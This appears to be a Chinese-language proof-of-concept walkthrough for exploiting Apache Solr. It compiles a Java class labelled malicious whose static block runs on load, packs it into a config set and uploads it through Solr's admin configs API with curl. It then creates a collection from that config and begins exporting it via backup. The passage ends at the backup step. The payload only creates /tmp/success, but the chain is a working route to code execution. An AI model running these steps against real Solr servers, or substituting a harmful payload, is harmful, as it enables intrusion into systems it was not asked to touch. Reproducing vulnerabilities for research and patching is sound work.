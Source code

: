 ## 编译恶意 class

编译一个包名为 zk_backup_0.configs.conf1 的 Java 类

```sh
mkdir -p zk_backup_0/configs/conf1
```

编辑 zk_backup_0/configs/conf1/Exp.java
内容：

```java
package zk_backup_0.configs.conf1;
import java.io.File;
public class Exp {
    static {
        try {
            new File("/tmp/success").createNewFile();
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

```sh
docker run --rm -v $(pwd):/usr/src/myapp -w /usr/src/myapp openjdk:17-jdk javac zk_backup_0/configs/conf1/Exp.java

```

## Exp

编译完放在配置文件目录中

```sh
tar xvf conf.tar
mv zk_backup_0/configs/conf1/Exp.class conf/
mv conf conf1
cd conf1
zip -q -r conf1.zip *
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf1.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf1"

```

用 conf1 创建 collection1
用上一步上传的配置 conf1 去创建一个 Collection，名为 collection1

```sh
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=collection1&numShards=1&replicationFactor=1&wt=json&collection.configName=conf1"

```

备份 collection1，导出 conf1
通过备份功能可以将 collection1 导出，其中包括创建 collection1 时用的配置文件，也就是 conf1，从而恶意 class 也随之导出。
